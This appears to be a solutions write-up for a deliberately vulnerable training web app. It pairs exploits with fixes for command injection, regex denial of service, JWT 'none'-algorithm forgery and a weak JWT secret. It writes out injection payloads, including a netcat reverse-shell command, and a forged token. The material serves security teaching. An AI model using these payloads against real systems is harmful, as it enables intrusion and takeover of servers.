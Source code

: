 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.  

https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS . 


# JWT
Make sure you have all imports installed if you run the python code locally:  
pip3 install -r requirements.txt . 

Interesting blog post:
https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9

## Exploit
After authentication you receive a JWT where you can swith the algorithm in the header to "None":  
{
  "typ":"JWT",
  "alg":"NONE"
}
   
-> ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9 . 
ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9.eyJleHAiOjE1NTMwMDM3MTgsImlhdCI6MTU1MzAwMzQxOCwibmJmIjoxNTUzMDAzNDE4LCJpZGVudGl0eSI6Mn0.  
Open the local storage tab within the browser and replace the original token there.

You can check JWT at https://jwt.io/

## Fix
Do not allow algorithm "NONE" in the backend.

# JWT secret
## Exploit
Intercept and check JWT from response. After decoding, we can brute-force with:
https://github.com/jmaxxz/jwtbrute

## Fix
Use a better secret in:
```app.config['SECRET_KEY'] = 'secret'```
